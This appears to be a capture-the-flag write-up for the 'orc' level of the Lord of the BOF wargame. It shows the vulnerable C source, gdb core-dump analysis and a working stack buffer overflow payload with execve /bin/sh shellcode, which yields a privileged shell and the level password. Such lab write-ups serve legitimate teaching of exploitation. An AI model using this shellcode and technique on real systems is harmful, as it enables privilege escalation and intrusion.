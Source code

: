 # Level4

## This level's goal
- LEVEL4 (goblin -> orc) : egghunter

***

```
[goblin@localhost goblin]$ bash2
[goblin@localhost goblin]$ ls -l
total 20
-rwsr-sr-x    1 orc      orc         12567 Feb 26  2010 orc
-rw-r--r--    1 root     root          505 Mar 29  2010 orc.c
[goblin@localhost goblin]$ cat orc.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - orc
        - egghunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

In the code, there are two conditions.
1. the egghunter seems that you cannot use env variable. (cannot use RTL method)
2. the retrun address's first byte should be "0xbf"

```
[goblin@localhost goblin]$ ulimit -s unlimited
```

Before you make a core file, you need to turn off the ASLR

```
[goblin@localhost goblin]$ gcc orc.c -o orc2
[goblin@localhost goblin]$ ./orc2 `python -c 'print "A"*46+"\xbf"'`
stack is still your friend.
[goblin@localhost goblin]$ ./orc2 `python -c 'print "A"*47+"\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¿
Segmentation fault (core dumped)
[goblin@localhost goblin]$ ls -l | grep core
-rw-------    1 goblin   goblin      61440 Jun 14 10:55 core
[goblin@localhost goblin]$ gdb -q -c core
Core was generated by `./orc2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA¿'.
Program terminated with signal 11, Segmentation fault.
#0  0xbf414141 in ?? ()
(gdb) x/64x $esp
0xbffffc40:     0x00000000      0x6f2f2e00      0x00326372      0x41414141
0xbffffc50:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc60:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc70:     0x41414141      0x41414141      0xbf414141      0x00000000
0xbffffc80:     0x00000000      0x00000000      0x00000000      0x00000000
```

In the code, I just found the memory structrue(buf 40bytes + SFP 4bytes + RET 4bytes).

The payload will be NOP(19bytes) + Shell code(25bytes) + Return Address(0xbffffc50)

```
[goblin@localhost goblin]$ ./orc `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x50\xfc\xff\xbf"'`
bash$ id
uid=503(goblin) gid=503(goblin) euid=504(orc) egid=504(orc) groups=503(goblin)
bash$ my-pass
euid = 504
cantata
```

